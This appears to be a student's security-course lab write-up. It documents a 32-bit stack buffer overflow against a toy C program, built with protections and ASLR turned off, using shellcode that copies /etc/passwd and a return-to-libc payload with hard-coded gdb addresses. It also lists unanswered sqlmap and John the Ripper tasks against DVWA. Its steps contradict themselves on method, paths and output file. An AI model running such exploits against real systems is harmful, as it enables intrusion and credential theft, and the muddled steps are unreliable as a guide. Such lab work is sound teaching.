 # Lab #1,22110046, Mai Duc Kien, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.<br>
**Answer 1**


### 1. Build image Run Docker
```
docker build -t img4lab .
```
```
docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
```
![Screenshot 2024-10-21 083918](https://github.com/user-attachments/assets/b8ccbc09-5ff8-424e-bd36-c8b4a0c86ae8)
### 2. Compile asm program and c program

```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc vullab1.c -o vullab1.out -fno-stack-protector -mpreferred-stack-boundary=2
```
![image](https://github.com/user-attachments/assets/82f4142d-6425-4873-82b9-7268a50f61c2)



### 3. Before doing this lab, we have to turn off ASLR (Address Space Layout Randomization)
```
sudo sysctl -w kernel.randomize_va_space=0
```
![image](https://github.com/user-attachments/assets/948e6588-a50f-4789-95e8-f61a7220a3c2)


### 4. Now we create an environment variable in Linux with the path of file lab1.asm
```
nasm -g -f elf lab1.asm
ld -m elf_i386 -o lab1 lab1.o
pwd -> /home/seed/seclabs/bof
export exploit_path="/seclabs/bof/file_del"
```
![image](https://github.com/user-attachments/assets/4bdb34cd-9bc4-44c7-8587-1a812d3e7ae8)
![image](https://github.com/user-attachments/assets/6920c002-706d-46f6-8f61-6c2152812483)

### 5.Stack Frame

![image](https://github.com/user-attachments/assets/f207d112-107d-4f72-9fe7-e85117ab4b8b)

If we want to exploit

20 bytes to overwrite buf and ebp <br>
4 bytes to overwrite ret addr of vuln with the address of system <br>
4 bytes for the address of exit <br>
4 bytes for argument of system (exploit path that we created before) <br>

```
r $(python -c "print(20*'a' + 'address of system' + 'address of exit' + 'address of env var')")
```

### 6. Use gdb

Use gdb for this c program

```
gdb -q vullab1.out
```
Start the code
```
start
```
Print out the address of those things
```
print system
print exit
find /home/seed/seclabs/bof/vullab1
```

![image](https://github.com/user-attachments/assets/abc8086a-e280-44ef-afdc-60bedb4bca65)


0xf7e50db0: Address of libc_system<br>
0xf7e449e0: Address of exit to avoid crashing <br>
0xffffd91a: Address of env variable <br>

### 7. Attack File

Before attack
<br>
![image](https://github.com/user-attachments/assets/00601137-8fcc-4e22-830d-f8f90c4d28cf)

The attack start
```
gdb -q vullab1.out
```
```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x14\xd9\xff\xff')")
```

![image](https://github.com/user-attachments/assets/e9b06db2-1738-4674-a04d-526309f9d79d)


After that, we use the code below to read file we have just copied
```
cat /tmp/outfile
```


After attacking, we see that the asm program copy /etc/passwd to /tmp/outfile, not /tmp/pwfile

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection.




# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





















































